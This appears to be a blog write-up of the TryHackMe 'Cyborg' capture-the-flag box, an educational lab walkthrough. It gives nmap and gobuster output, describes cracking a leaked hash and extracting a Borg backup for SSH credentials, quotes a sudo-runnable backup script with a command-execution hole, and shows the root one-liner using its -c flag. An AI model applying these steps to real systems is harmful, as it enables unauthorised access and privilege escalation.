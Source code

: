 +++ 
draft = false
date = 2021-01-31T18:53:23+05:30
title = "Cyborg TryHackMe Writeup"
description = "Writeup of Cyborg room in TryHackMe"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","tryhackme","easy_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
# [Cyborg](https://tryhackme.com/room/cyborgt8) TryHackMe Writeup


![](/TryHackMe/Cyborg/BoxImage.jpeg)



So this was a very different box from others and also an interesting concept is used on initial foothold.


## __First Stage : Enumeration__


Let's fireup nmap.

```
# Nmap 7.91 scan initiated Sun Jan 31 16:51:47 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.143.35
Warning: 10.10.143.35 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.143.35
Host is up, received syn-ack (0.20s latency).
Scanned at 2021-01-31 16:51:48 IST for 795s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
29135/tcp filtered unknown no-response
34981/tcp filtered unknown no-response
37803/tcp filtered unknown no-response
47065/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 31 17:05:03 2021 -- 1 IP address (1 host up) scanned in 796.32 seconds
```

So the open ports are :

* 22
* 80


Hence I visited the port 80.


![](/TryHackMe/Cyborg/port80.png)



So I fired up gobuster and got some interesting results.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.143.35/
[+] Threads:        100
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/01/31 16:52:20 Starting gobuster
===============================================================
/index.html (Status: 200)
/admin (Status: 301)
/etc (Status: 301)
```


## __Second Stage : Initial access as alex__
Hence I visited admin .

![](/TryHackMe/Cyborg/admin.png)


So there is a backup called music_archive in the web.

So I went to **/etc** . So I found two files.


![](/TryHackMe/Cyborg/etc.png)




![](/TryHackMe/Cyborg/hash.png)




And then the **squid.conf**

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

So first I cracked the hash and found the password.


Then when I went back to admin directory , in archives -> download I got **archive.tar**.



![](/TryHackMe/Cyborg/arhchive.png)


The **README** file gave a hint to look in the right direction.

```
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

So after reading the documentation , I downloaded the binary and followed the instructions for extracting.

```
#Extract entire archive
$ borg extract /path/to/repo::my-files
```

![](/TryHackMe/Cyborg/extract.png)


So I found the password in __/home/alex/Documents/__.


![](/TryHackMe/Cyborg/passwd.png)



## Third Stage : alex to root


Hence after ssh into the box .



![](/TryHackMe/Cyborg/perms.png)



So reading the **backup.sh**

```
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
So we can see that the script is taking arguments through "c" flag , hence I tired **whoami**.





![](/TryHackMe/Cyborg/try1.png)


Since it worked I tried


> sudo /etc/mp3backups/backup.sh -c "bash -p"


And got root.


![](/TryHackMe/Cyborg/root.png)



